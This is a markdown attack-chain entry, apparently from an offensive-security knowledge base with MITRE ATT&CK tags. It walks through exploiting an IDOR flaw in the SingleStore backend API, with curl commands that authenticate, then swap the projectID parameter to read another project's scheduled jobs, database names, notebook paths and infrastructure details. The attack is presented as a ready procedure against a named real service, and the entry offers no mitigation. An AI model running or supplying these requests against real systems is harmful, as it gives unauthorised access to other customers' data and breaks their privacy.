

---
tags:
  - idor
  - api
  - authorization-bypass
  - singlestore
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-IDOR-in-GetNotebookScheduledPaginatedJobs]]'
step_count: 4
techniques:
  - '[[Valid Accounts]]'
  - '[[Account Discovery]]'
updated_at: '2025-12-14T17:25:34.572Z'
description: >-
  An authenticated user exploits an Insecure Direct Object Reference (IDOR)
  vulnerability in the SingleStore backend API to access sensitive scheduled job
  information from other projects by manipulating the projectID parameter.
skill_level: intermediate
impact_level: medium
id: bf5c2b65-1864-4859-a4ac-c136fc086cea
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Account Discovery]]'
---
# IDOR Exploitation in SingleStore API to Access Other Users' Scheduled Jobs

Multi-stage attack chain demonstrating a complete attack workflow exploiting an IDOR vulnerability in the SingleStore backend API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Web platform
- SingleStore backend API at backend.singlestore.com
- Authenticated access required

### Initial Access Requirements

- Valid authenticated credentials for a SingleStore account
- Knowledge of a target projectID (e.g., from enumeration or guessing)
- Network access to backend.singlestore.com

## Detailed Attack Procedures

### Step 1: Authenticate to the SingleStore Backend API
procedure: [[procedures/Exploit-IDOR-in-GetNotebookScheduledPaginatedJobs]]

**Objective**: Gain authenticated access to the API endpoints.

**Instructions**: Use [[commands/curl-authenticate-singlestore]] to log in and obtain an access token.

```bash
curl -X POST https://backend.singlestore.com/auth/login -H "Content-Type: application/json" -d '{"username": "your_username", "password": "your_password"}'
```

Store the returned access token for subsequent requests.

**Expected Output**: JSON response with access_token field.

**Success Indicators**:
- Access token received
- HTTP 200 status

### Step 2: Identify and Call the Endpoint with Own projectID
procedure: [[procedures/Exploit-IDOR-in-GetNotebookScheduledPaginatedJobs]]

**Objective**: Understand the normal response structure by querying with a legitimate projectID.

**Instructions**: Use [[commands/curl-get-scheduled-jobs]] with your own projectID to baseline the API response.

```bash
curl -X GET "https://backend.singlestore.com/api/GetNotebookScheduledPaginatedJobs?projectID=your_project_id" -H "Authorization: Bearer your_access_token"
```

**Expected Output**: JSON array of scheduled jobs for your project, including database names, notebook paths, etc.

**Success Indicators**:
- Valid job data returned for own project
- Response structure noted for comparison

### Step 3: Modify the projectID Parameter to Target Another Project
procedure: [[procedures/Exploit-IDOR-in-GetNotebookScheduledPaginatedJobs]]

**Objective**: Bypass authorization by altering the projectID to reference another user's project.

**Instructions**: Replace the projectID with a known or guessed value from another project, then execute [[commands/curl-get-scheduled-jobs]] again.

```bash
curl -X GET "https://backend.singlestore.com/api/GetNotebookScheduledPaginatedJobs?projectID=target_project_id" -H "Authorization: Bearer your_access_token"
```

**Expected Output**: JSON response with scheduled jobs from the target project, without permission errors.

**Success Indicators**:
- No authorization denial
- Data from unauthorized project returned

### Step 4: Retrieve and Analyze Unauthorized Sensitive Data
procedure: [[procedures/Exploit-IDOR-in-GetNotebookScheduledPaginatedJobs]]

**Objective**: Exfiltrate and review exposed information such as database names, notebook paths, scheduling details, and infrastructure data.

**Instructions**: Parse the response from the previous step to extract sensitive details. No additional command needed beyond the API call.

**Expected Output**: Exposed data including database names, paths, cron schedules, and infra details.

**Success Indicators**:
- Sensitive information from other projects accessed
- Confirmation of IDOR exploitation

## Attack Chain Summary

### Key Achievements

1. Successful authentication to the SingleStore API
2. Baseline API response with legitimate parameters
3. Unauthorized access to other projects' scheduled job data via IDOR
4. Exposure of sensitive infrastructure and scheduling information

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Account Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
